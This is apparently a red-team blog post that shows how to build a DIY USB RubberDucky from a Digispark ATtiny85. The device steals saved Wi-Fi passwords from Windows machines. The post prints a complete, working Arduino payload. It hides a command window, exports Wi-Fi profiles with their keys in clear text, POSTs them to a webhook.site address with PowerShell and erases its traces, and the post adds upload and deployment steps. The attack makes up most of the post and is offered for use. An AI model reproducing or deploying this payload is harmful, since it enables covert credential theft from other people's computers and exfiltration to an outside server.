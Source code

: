 ```yaml
---
title: DIY RubberDucky Wifi Passwords Stealer
description: Steal Wifi passwords with a DIY RubberDucky.
author: hum4ng0d
date: 2021-08-02
categories: [Exploit, PoC]
tags: [windows, mac, linux, rubberducky, Wifi password, red team, penetration testing]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/rubberducky/rubberducky.png
  alt: DIY RubberDucky
---
```


In this post, I'll walk through how you can steal Wifi passwords with a DIY RubberDucky and send over to a webhook address. This payload will only work with internet access. You can have a local listener setup but that's totally up to you. I'll be using payload from [MTK911](https://github.com/MTK911/Attiny85/tree/master/payloads).<br>

### Webhook

Before we get into setting payload, let's head over to [https://webhook.site/](https://webhook.site/) to get a webhook address that we can use. Copy the webhook address. You will also see an email address that you can use but we won't be utilizing that in this walk thorugh.

```
https://webhook.site/35013eef-f6b1-4833-a3b0-xxxxxxxxxxxx
```

 ![DIY RubberDucky](/assets/img/wifistealer/wifi02.png)

### Payload

Github: [MTK911/Wifi-password-stealer](https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino)

You can try out other payloads from MTK911 as well. He posted quite a number of awesome payloads.

Fire up your Arduino IDE. Make sure Digispark drivers are installed. If you haven't done so already, please see my previous post for the setup guide.

Make sure that Boards Manager is set to `Digistump 16.5mhz` and Programmer set to `Micronucleus`.

Paste the code into the IDE:

```
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook and hide the cmd windows by using technique mentioned in hak5darren
 rubberducky wiki -- Payload hide cmd window [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---hide-cmd-window]
*/


#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
   
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu  
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
  
}
```

Your IDE should now look something like this:

![DIY RubberDucky](/assets/img/wifistealer/wifi01.png)

Be sure to paste in your unique webhook address that you obtained above. You can play around with the delay to better suit your needs. 

Press `Upload` button when ready.

![DIY RubberDucky](/assets/img/instantshell/shell02.png)

You will see the message saying: `Plug in the device now...`.

![DIY RubberDucky](/assets/img/instantshell/shell03.png)

Plug in your ATtiny85. When done, `Micronucleus done. Thank you!` message will show.

![DIY RubberDucky](/assets/img/instantshell/shell04.png)

> Always remember to unplug the Digispark before hitting upload and plug it in when the Arduino IDE requests you to. If you get an error that assertion failed or micronucleus crashed during upload then you probably did not unplug your Digispark before uploading.

Now, plug the device into a computer and wait for it to trigger.

![DIY RubberDucky](/assets/img/wifistealer/wifi03.png)

For any questions, feel free to reach out to me on twitter.

> DISCLAIMER: All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things. 